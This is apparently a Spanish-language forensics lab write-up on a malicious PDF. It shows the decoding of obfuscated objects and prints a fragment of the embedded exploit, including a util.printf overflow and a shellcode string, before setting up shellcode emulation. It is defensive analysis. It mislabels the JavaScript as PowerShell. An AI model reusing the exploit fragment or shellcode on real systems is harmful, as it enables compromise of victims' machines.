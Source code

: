 Los replace tienen el mismo formato que los obj9 y obj7, así que hacemos lo mismo: 

```bash
┌──(kali㉿kali)-[~/blue-labs/pdf]
└─$ sed  's/X_17844743X_170987743/%/g' obj9 | xxd -r -p > obj9.out

┌──(kali㉿kali)-[~/blue-labs/pdf]
└─$ sed 's/89af50d/%/g' obj7 | xxd -r -p > obj7.out
```

El resultado parece ser un script en powershell, aqui un fragmento del obj7: 
```powershell
┌──(kali㉿kali)-[~/blue-labs/pdf]
└─$ cat obj7.out
8888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888;
        this.bC = 3699;
        util.printf("%45000f", num);
}
var eQ = "";

function gX() {
        var basicZ = '';
                // notepad.exe payload
        var shellcode = unescape("%uc931%u64b1%ub6bf%u558b%ud976%ud9cd
```

Así que podemos concluir que los objetos 7 y 9 son los que contienen el script, escrito en powershell. 

------

<h3 style="color: #0d6efd;">Q9. The JS code responsible for executing the exploit contains shellcodes that drop malicious executable files. What is the full path of malicious executable files after being dropped by the malware on the victim machine? </h3>

Para esto se junta el contenido de los dos fragmentos del malware que tenemos. 

```bash 
┌──(venv)─(kali㉿kali)-[~/blue-labs/pdf]
└─$ cat cat obj7.out obj9.out > fullobj.out
```

Y usamos el siguiente [script](https://raw.githubusercontent.com/forensicskween/CyberDefenders/refs/heads/main/GetPDF/ShellCodeExtract.py) propiedad de forensicskween para extraer, decodificar, emular y analizar el script en powershell. 

Utiliza pylibemu, una biblioteca de emulación de shellcode, para:
- Preparar un entorno de emulación con 2 KB de memoria.
- Ejecutar el shellcode hasta un máximo de 10 millones de instrucciones.
- Obtener una traza de lo que hace el shellcode (emu_profile_output).

Para esto tenemos que instalarlo en un entorno virtual: 

```bash 
git clone https://github.com/buffer/libemu.git
cd libemu
autoreconf -i
./configure
make
sudo make install
sudo ldconfig

# para confirmar la instalación: 
ldconfig -p | grep libemu
```
